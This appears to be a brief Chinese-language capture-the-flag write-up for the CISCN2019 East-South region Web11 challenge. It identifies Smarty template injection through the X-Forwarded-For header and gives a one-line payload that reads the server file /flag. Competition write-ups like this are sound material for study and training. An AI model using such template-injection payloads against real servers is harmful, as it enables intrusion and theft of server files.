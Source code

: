 # [CISCN2019 华东南赛区]

## Web11

控制XFF头
Smarty 注入

payload:

```
X-Forwarded-For: {if print_r(file_get_contents("/flag"))}{/if}
```